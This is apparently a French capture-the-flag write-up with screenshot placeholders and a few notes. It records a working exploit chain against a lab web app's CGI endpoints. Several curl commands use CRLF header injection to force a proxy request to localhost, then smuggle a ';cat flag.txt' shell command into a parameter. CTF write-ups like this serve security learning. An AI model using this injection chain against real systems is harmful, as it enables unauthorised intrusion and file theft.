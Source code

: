 ![alt text](img/Pasted_image_20250325230612.png)

### SCAN 
![alt text](img/Pasted_image_20250325230632.png)
### ENUMERATION

![alt text](img/Pasted_image_20250325230657.png)
### WEB BROWSER

![alt text](img/Pasted_image_20250325230710.png)

Indice dans l'inspector : 
![alt text](img/Pasted_image_20250325230820.png)

Essayons de nous faire passer pour un **localhost** :

mouai : 
La requête:
curl -v 'http://83.136.252.23:46546/cgi-bin/attack-domain?target=127.0.0.1&name=local%0d%0aLocation:/ooo%0d%0aContent-Type%3aproxy%3ahttp%3a//localhost/cgi-bin/attack-ip%3ftarget%3d127.0.0.1%26name%3dtest%3f%0d%0a%0d%0a'

![alt text](img/Pasted_image_20250325235553.png)

### Explication


### Test : 

```bash 
curl -v 'http://83.136.253.71:46720/cgi-bin/attack-domain?target=127.0.0.1&name=local%0d%0aLocation:/ooo%0d%0aContent-Type%3aproxy%3ahttp%3a//localhost/cgi-bin/attack-ip%3ftarget%3d127.0.0.1%26name%3d%27%3bcat%20flag.txt%3b%27%0d%0a%0d%0a'

```

En fait c'est **target** qui est injectable : 

![alt text](img/Pasted_image_20250326001955.png)
```bash
curl -v 'http://83.136.252.23:46546/cgi-bin/attack-domain?target=127.0.0.1&name=local%0d%0aLocation:/ooo%0d%0aContent-Type%3aproxy%3ahttp%3a//localhost/cgi-bin/attack-ip%3ftarget%3d127.0.0.1%26name%3dtest%3f%0d%0a%0d%0a'
```

```sh
curl -v 'http://83.136.253.71:46720/cgi-bin/attack-domain?target=127.0.0.1&name=local%0d%0aLocation%3a%2fooo%0d%0aContent-Type%3aproxy%3ahttp%3a%2f%2flocalhost%2fcgi-bin%2fattack-ip%3ftarget%3d127.0.0.1%3bcat%20flag.txt%26name%3dtest%0d%0a%0d%0a'
```

c'est sur que c'est ça : 
![alt text](img/Pasted_image_20250326002734.png)

